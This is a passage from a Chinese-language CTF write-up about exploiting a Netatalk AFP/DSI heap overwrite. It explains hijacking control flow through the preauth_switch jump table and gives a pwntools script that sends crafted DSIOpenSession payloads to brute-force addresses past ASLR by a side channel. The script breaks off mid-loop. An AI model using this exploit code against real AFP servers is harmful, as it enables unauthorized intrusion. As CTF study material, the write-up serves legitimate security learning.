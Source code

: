 :::info 启发

虽然在 exp 中没有用到这个特点，不过我们也可以思考一种别的利用。在没有认证的情况下，它指向的是 `preauth_switch` 表。如果我们将 commands 指针覆写到 `preauth_switch`，这样的话接下来的 afp 消息都会写入到 `preauth_switch` 上，之后又通过全局跳转表（也就是 `preauth_switch`）来调用对应的表项。此时，如果我们将即将调用的表项设置为一些可利用的地址，我们便可以控制程序流

:::

## 0x03 漏洞利用

### 0b0001 有效地址爆破

在开启了 ASLR 的环境下，我们首先要做的就是获取到 libc 的基址（或是其他有用的地址）。在子进程 fork 的条件下，这是非常容易达成的。

根据上面的分析，我们可以知道，在 command 被覆写后，服务器想要将 `dsi->server_quantum` 通过 reply 发送给我们就必须要往 `command` 上写数据，如果这个地址是一个非法地址，自然就会报错然后退出。这也就意味着，我们可以通过是否有回显来判断一个地址是否是合法的地址。如此一来，只需要利用侧信道进行爆破，我们就可以得到一个合法地址。

简单写一个脚本

```python
from pwn import *
from typing import Callable

context.update(arch="amd64", os="linux")
context.log_level = 'error'
# context.log_level = 'debug'

host = '127.0.0.1'
port = 5566
# host = 'chall.pwnable.tw'
# port = 10002


# Utilities
p8: Callable[[int], bytes]
p32: Callable[[int], bytes]
u64: Callable[[bytes], int]

def create_header(payload: bytes) -> bytes:
    # See https://en.wikipedia.org/wiki/Data_Stream_Interface
    dsi_opensession = b"\x01"  # DSIOPT_ATTNQUANT
    dsi_opensession += p8(len(payload))  # length, we fill 0x10 before our payload, making it easier to be received.
    dsi_opensession += payload  # payload
    dsi_header = b"\x00"  # "request" flag - 1 byte
    dsi_header += b"\x04"  # "DSIOpenSession" command - 1 byte
    dsi_header += b"\x00\x01"  # request id - 2 bytes
    dsi_header += b"\x00\x00\x00\x00"  # enclosed data offset - 4 bytes, left as 0 for request except DSIWrite
    dsi_header += struct.pack(">I", len(dsi_opensession))  # Total data length - 4 bytes
    dsi_header += b"\x00\x00\x00\x00"  # reserved - 4 bytes
    dsi_header += dsi_opensession
    return dsi_header

def create_exploit_header(payload: bytes, padding: bytes=b'A', padding_size: int = 0x10):
    return create_header(padding*padding_size + payload)

# SCA Bruteforce
def leak_address() -> int:
    addr = b''
    for _ in range(6):
        for i in range(0xff, -1, -1):
            sh = remote(host, port)
            sh.send(create_exploit_header(addr + i.to_bytes(1, 'big')))
            if b'A'*4 in sh.recvrepeat(1):
                addr += i.to_bytes(1, 'big')
```